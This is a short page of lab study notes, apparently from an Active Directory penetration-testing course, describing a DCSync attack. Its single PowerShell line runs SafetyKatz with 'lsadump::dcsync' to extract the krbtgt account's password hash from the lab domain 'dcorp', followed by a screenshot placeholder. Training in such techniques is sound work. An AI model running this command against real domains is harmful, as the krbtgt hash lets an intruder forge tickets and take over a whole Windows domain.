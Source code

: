 # DCSync

### E_xecute the DCSync attack to pull hashes of the krbtgt user_&#x20;

Use safetykatz to extract the hash of any user

```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

<figure><img src="../../../../.gitbook/assets/Pasted image 20231025125418 (1).png" alt=""><figcaption></figcaption></figure>
